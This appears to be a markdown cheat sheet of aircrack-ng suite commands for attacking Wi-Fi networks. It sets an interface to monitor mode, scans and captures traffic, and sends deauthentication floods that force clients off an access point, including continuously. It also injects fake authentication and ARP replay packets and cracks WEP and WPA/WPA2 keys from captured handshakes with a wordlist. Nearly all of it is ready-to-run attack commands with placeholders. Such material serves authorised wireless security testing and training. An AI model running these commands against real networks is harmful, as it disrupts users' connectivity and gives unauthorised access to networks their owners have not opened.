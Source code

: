 #### Set Interface to Monitor Mode
**Enables `monitor mode` on interface wlan0**
```
airmon-ng start wlan0
```

**Stops `monitor mode` and return the interface to managed mode**
```
airmon-ng stop wlan0mon
```

#### Scan Wireless Networks
**Scans for wireless networks and displays BSSID, channel, encryption, and connected clients**
```bash
airodump-ng wlan0mon
```

#### Capture Packets from a Specific Network
```
airodump-ng -bssid <BSSID> -c <channel> -w <file> wlan0mon
```

#### Deauthenticate a Client (Capture Handshake)
**Sends `deauth packets` to force a client to reconnect, triggering a `4-way handshake`**
```
aireplay-ng --deauth 10 -a <AP_BSSID> -c <CLIENT_MAC) wlan0mon
```

**Sends `continuous deauth` packets to all clients of the AP**
```
aireplay-ng --deauth 0 -a <AP_BSSID> wlan0mon
```

---
### Crack WEP Key
**Cracks WEP keys using captured packets**
```
aircrack-ng -b <BSSID> -w <wordlist> <capturefile>.cap
```

### Crack WPA/WPA2 Key
**Cracks WPA/WPA2 using a `dictionary attack` on the handshake file**
```
aircrack-ng -w <WORDLIST> -b <BSSID> <handshake>.cap
```

### Packet Injection (Fake Authentication/ARP Replay)
**Fake authentication with AP (required for some WEP attacks)**
```
aireplay-ng -1 0 -a <BSSID> -h <YOUR_MAC> wlan0mon
```

**`ARP request replay` attack (for WEP), increases packet capture speed**
```
aireplay-ng -3 -b <BSSID> -h <YOUR_MAC> wlan0mon
```

### Verify Packet Injection
**Tests if injection is working on your wireless card**
```
aireplay-ng -9 wlan0mon
```